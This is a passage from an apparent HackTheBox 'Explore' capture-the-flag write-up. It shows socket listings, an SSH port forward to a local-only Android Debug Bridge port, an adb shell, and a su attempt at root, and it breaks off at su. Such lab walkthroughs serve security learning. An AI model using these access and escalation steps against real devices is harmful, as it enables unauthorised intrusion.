 ```bash
udp    UNCONN     0      0      0.0.0.0:5353               0.0.0.0:*                  
udp    UNCONN     0      0         *:1900                  *:*                  
udp    UNCONN     0      0         [::ffff:10.129.172.1]:32786                 *:*                  
udp    UNCONN     0      0      [::]:58489              [::]:*                  
udp    UNCONN     0      0      [::]:5353               [::]:*                  
udp    UNCONN     0      0      [::]:5353               [::]:*                  
udp    UNCONN     0      0         *:5353                  *:*                  
tcp    LISTEN     0      10        *:42135                 *:*                  
tcp    LISTEN     0      8        [::ffff:127.0.0.1]:35167                 *:*                  
tcp    LISTEN     0      50        *:59777                 *:*                  
tcp    LISTEN     0      50        [::ffff:10.129.172.1]:35723                 *:*                  
tcp    LISTEN     0      50        *:2222                  *:*                   users:(("ss",pid=25115,fd=75),("sh",pid=24889,fd=75),("droid.sshserver",pid=3502,fd=75))
tcp    LISTEN     0      4         *:5555                  *:*  
```
Looking for services running we can see the port 5555 open which wasn't there intially so let's portfwd that and see what it is.
```bash
kali@kali:~/HackTheBox/Explore$ ssh -L 5555:127.0.0.1:5555 kristi@explore.htb -p 2222
Password authentication
Password: 
:/ $
```
Now let's check port 5555 on our localhost.
googling for port 5555 found it is for android debug bridge.
Now I searched for how to connect to it I got to this stackoverflow question.
https://stackoverflow.com/questions/2604727/how-can-i-connect-to-android-with-adb-over-tcp
So we have to get adb.
```bash
sudo apt-get install adb
```
Now let's try to connect
```bash
kali@kali:~/HackTheBox/Explore$ adb connect localhost:5555
connected to localhost:5555
kali@kali:~/HackTheBox/Explore$ adb shell
error: more than one device/emulator
```
And we have an error so it says more than one device so let's try and see how many devices are connected
```bash
kali@kali:~/HackTheBox/Explore$ adb devices
List of devices attached
emulator-5554   device
localhost:5555  device
```
So after googling on this error I stumbled upon this again on stackoverflow https://stackoverflow.com/questions/14654718/how-to-use-adb-shell-when-multiple-devices-are-connected-fails-with-error-mor
so now let's try the command that was shown in that article
```bash
kali@kali:~/HackTheBox/Explore$ adb -s localhost:5555 shell
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
```
And boom it worked.
Looking for vuln in ESExplorerVersion I got to this article which just shows that running su can give you root shell on adb so let's give it a try.
https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566
```bash
127|x86_64:/ $ su
```